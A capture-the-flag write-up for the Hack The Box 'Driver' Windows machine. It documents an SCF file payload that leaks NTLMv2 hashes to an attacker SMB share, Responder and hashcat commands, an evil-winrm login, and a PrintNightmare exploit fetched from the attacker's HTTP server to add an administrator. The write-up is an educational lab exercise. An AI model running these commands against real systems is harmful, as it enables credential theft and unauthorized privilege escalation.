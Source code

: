 ```yaml
---
title: "Driver Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/Driver/20220226105919.png"
tags: ["Hackthebox", "print nigthmare", "scf attacks", "evil-winrm"]
categories:
  - Windows Machines
ribbon: green
date: 2022-02-25T00:45:08+02:00
toc: true
draft: false
---
```


In this Box, we are going to abuse the ability of uploading the firmware of a shared printer and capture
the NTLMv2 hash of a user on this machine. By cracking the hash there is nothing that can stop us from logging in
except the smb shares aren't accessible so we will use evil-winrm to get the initial access, for the Administrator part we will make use of the vulnerable service "spooler" and add a user in the administrator group.

<!--more-->

## Scanning :

```bash
nmap -T 4 -A -sV 10.10.11.106  -oN nmap_intial.txt
```

output :

```bash
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).

135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h17m43s, deviation: 0s, median: 7h17m43s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
```

we can also run full port scan and will get :

```bash
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

we have this port **5985** open , which we may utilize later [check](https://hacktricks.boitatech.com.br/pentesting/5985-5986-pentesting-winrm).

## Enumeration:

we can start by visiting the web page and it will ask us for a username:password for MFP firmware update center .

![image](/assets/images/Driver/20220226110700.png)

searching for MFP will find it stands for multi functioning printer , we can search for default credentials and find it is **"admin:admin"**

using them will login successfully :

![image](/assets/images/Driver/20220226111149.png)

- we can add "driver.htb" to the `/etc/hosts` and start fuzzing for any Vhosts but will find none.

- let's navigate around this site will find option Firmware Updates is working and asking for updating firmware

![image](/assets/images/Driver/20220226111320.png)

- we should now think about uploading some malicious file to gain a reverse shell , however it won't work.
- we can enumerate SMB that we have found earlier maybe will give us a lead
- ACCESS_DENIED from `smbclient -L //driver.htb`

- it seems SMB is running for the printer that is shared among the network

### SMB authentication :

- according to Microsoft Documentation :

```
NTLM and the older LAN Manager (LM) encryption are supported by Microsoft SMB Protocol. Both encryption methods use challenge-response authentication, where the server sends the client a random string and the client returns a computed response string that proves the client has sufficient credentials for access.
```

- so if the client (the target) tries to connect to us (attacker) the NTLM hash will be used to authenticate and then we can capture it with [Responder](https://github.com/lgandx/Responder) tool.

- and as the firmwares are checked when the file we upload is loaded at the reviewer file explorer or if he clicked it we can get the hash we need.

### Exploitation :

- searching for "smb share and printer firmware update exploit" will find this blog [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- so creating the payload :

```cmd
[Shell]
Command=2
IconFile=\\<ip>\share\Mesbaha.ico
[Taskbar]
Command=ToggleDesktop
```

and name it as `"@hack.scf"` and before uploading it run Responder to capture the hash (hopefully):

```bash
sudo responder -I tun0 -rdwv
```

GREAT we have NTLMv2 hash now :

![image](/assets/images/Driver/20220226114609.png)

now we can try to crack it with hashcat :

```bash
hashcat -m 5600 tony_hash  /usr/share/wordlists/rockyou.txt
```

![image](/assets/images/Driver/20220226114733.png)

so we have username and password , now How can we login ?

## Foothold :

- Most of the **impacket** tools that takes username:password and try to login depends on SMB shares (i.e : `ADMIN$` and `C$`) and hence they are not accessible they won't work .
- Remember the port we have found in the full port scan ?
- reading the blog article i have mentioned above

```
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)
```

- and they mentioned tool : [evil-winrm](https://github.com/Hackplayers/evil-winrm) that can help us do this

```bash
./evil-winrm.rb -u tony -p liltony -i driver.htb
```

- and the user.txt is in tony's Desktop

![image](/assets/images/Driver/20220226115238.png)

## Privilege escalation :

- you can start uploading Winpeas and follow the output but i will try first some manual checks
- first we know this Box is about printers and drivers maybe we find some exploit that way

![image](/assets/images/Driver/20220226115603.png)

- in the Microsoft post is says we can run `Get-Service -Name Spooler ` to check if it is running , and it is running

![image](/assets/images/Driver/20220226115710.png)

- Hence the service is running indeed we can try to exploit it and see if it works , there is this great one [here](https://github.com/JohnHammond/CVE-2021-34527) that we can try
- we can try to upload it then it will add for us a new user in Administrator group
- from machine side we can download the script from our http server with :
- **note** make sure you are in a writable directory

```bash
Invoke-WebRequest -Uri http://10.10.16.4:8888/CVE-2021-34527.ps1 -OutFile CVE.ps1
```

- running the exploit :

```powershell
Import-Module .\CVE.ps1
Invoke-Nightmare -NewUser "0xMesbaha" -NewPassword "supersecretpassword123"
```

![image](/assets/images/Driver/20220226120617.png)

and our new user has been added we can try to login with "evil-winrm" as well :

![image](/assets/images/Driver/20220226120835.png)

and if we run `net user <user_added>` will find :

![image](/assets/images/Driver/20220226120902.png)

the root flag is at Administrator Desktop .

## Pwned
